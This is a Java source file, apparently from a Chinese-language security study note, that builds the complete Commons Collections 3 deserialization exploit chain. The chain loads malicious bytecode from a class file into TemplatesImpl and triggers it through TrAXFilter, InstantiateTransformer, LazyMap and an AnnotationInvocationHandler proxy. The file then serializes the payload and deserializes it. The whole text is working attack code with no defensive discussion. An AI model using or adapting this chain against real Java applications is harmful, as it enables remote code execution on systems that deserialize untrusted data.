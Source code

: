 ```java=
// CC3 链最终 EXPpublic class CC3FinalEXP {  
    public static void main(String[] args) throws Exception  
    {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数  
 instantiateTransformer  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 Object o = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(o);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```
